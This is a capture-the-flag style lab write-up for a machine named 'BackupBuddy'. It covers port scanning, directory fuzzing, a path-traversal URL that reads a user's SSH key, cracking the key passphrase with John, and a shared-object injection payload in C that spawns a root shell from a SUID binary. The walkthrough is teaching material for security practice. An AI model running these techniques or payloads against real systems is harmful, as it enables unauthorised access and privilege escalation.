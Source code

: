 # **BackupBuddy**

***
Difficulty : **Intermediate**

![image](https://github.com/user-attachments/assets/9102a8ed-bc0a-405f-a054-3fa508205910)

***

Running our nmap scan we have:


```
# Nmap 7.94SVN scan initiated Wed Jul 10 12:25:16 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.224.43
Increasing send delay for 192.168.224.43 from 0 to 5 due to 16 out of 39 dropped probes since last increase.
Increasing send delay for 192.168.224.43 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 192.168.224.43
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: PHP File Manager
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 41A82F56B3C9FF0CFB37E755CEFB8448
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 10 12:27:44 2024 -- 1 IP address (1 host up) scanned in 147.68 seconds
```



Navigating to port 80/HTTP we have the below logon form, however trying out default password including vulnerability validation like XSS and SQLI turned out negative




![](https://i.imgur.com/XO4CDXs.png)



The page although has a link that says **"PHP File Manager** and we are been lead to this [GitHub repository](https://github.com/alexantr/filemanager), There is nothing interesting than the name of this CMS in the repo, so i decided to search for public exploit and found an **authentication bypass** [PoC](https://packetstormsecurity.com/files/135384/PHP-File-Manager-0.9.8-Authentication-Bypass-Code-Execution.html)


![](https://i.imgur.com/37tNDp8.png)



Just like the screenshot above, it doesn't work, so let not waste time, we can go ahead and fuzz for hidden endpoint using the "**_Fuzz Faster U Fool_**" tool


```
ffuf -ic -u "http://192.168.224.43/FUZZ" -w /usr/share/wordlists/seclist/Discovery/Web-Content/directory-list-2.3-small.txt -fc 404,403,401 -fw 63 -e .txt,.php,.bak,.sql,.pdf,.png,.jpg,.jpeg,.html
```



![](https://i.imgur.com/3bflRWj.png)



We found a `/files` directory which has few images including a `/backup` directory that also has an image



![](https://i.imgur.com/JfYlW5A.png)


Decided to download all images with wget and run a brief analysis on them



![](https://i.imgur.com/1AH2in8.png)



However there is nothing in this images as they seem really normal to me


![](https://i.imgur.com/WHA10kp.png)



Checking the `/readme` endpoint we have leaked credentials which is the default username and password for the CMS


![](https://i.imgur.com/yYvD6uC.png)




Decided to try it out on the logon endpoint and whoa it worked xD, we can also see that we have a backup directory together with the owners name known as `brian`


![](https://i.imgur.com/d5eoNYh.png)




Well i thought it was time to login via SSH, i mean it is worth trying 😎, but hell nah, wrong authentication 



![](https://i.imgur.com/XOSSwdq.png)


Inspecting the URL of the website, it looks like the page is vulnerable to LFI cos it is directly calling the `/backups` directory



![](https://i.imgur.com/93nGGN0.png)



Well guess what, LFI!!!!!!!!!!!!!!!!


![](https://i.imgur.com/8MtN87t.png)



Quickly navigated to user `brian` home folder and we have the `id_rsa` file for this user

Link : [http://192.168.224.43/index.php?p=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fbrian%2F.ssh](http://192.168.224.43/index.php?p=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fbrian%2F.ssh)



![](https://i.imgur.com/Qt71G7p.png)




Well copied the `id_rsa` for the user and tried login in, however the `id_rsa` file is encrypted and we need to decrypt it, soo let go ahead and do that using `ssh2john` 


```bash
chmod 600 id_rsa
ssh brian@192.168.224.43 -i id_rsa
```


![](https://i.imgur.com/Q1uzH4l.png)



```bash
ssh2john id_rsa > hash.txt
```



![](https://i.imgur.com/lSRgvBz.png)



```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



![](https://i.imgur.com/Iui3kzd.png)


Now we can login as user `brian` via SSH by specifying the cracked passphrase


![](https://i.imgur.com/8NgLNx8.png)



Checking for binaries with the SUID bit set we found a suspicious `backup` binary


```bash
find / -perm -4000 2>/dev/null
```


![](https://i.imgur.com/JuHQtWD.png)



Running this binary looks like it start a backup process but hell nah, it doesn't work that way so i decided to use the `strings` command on the file in which as shown below we can see that a `libm.so` file is been called under user `brian` home folder, we need to do a **Shared Object Injection** attack due to the fact that a `.so` file is been called



![](https://i.imgur.com/6SSgFIP.png)


Checking for the `.config` directory i did not find any directory like that


![](https://i.imgur.com/Sih5l06.png)



So we can go ahead and  create the `.confg/` directory ourselves and then compile this malicious `C` code to `.so` to give us a root shell which could be gotten from [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ld.so.conf-example#exploit)



![](https://i.imgur.com/B6eZ8Q0.png)


Compiling the exploit and running it doesn't seem to work, we are still getting the same response.


```
gcc -shared -o .config/libm.so libm.c
```



![](https://i.imgur.com/ShtfE1O.png)



However after several enumeration with a CLI utility called `strace`, i was able to figure it out, it was just all about modifying the `C` code and this would have saved me several hours, at last the below code helped me to get what i want



```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```



![](https://i.imgur.com/NQBNZri.png)








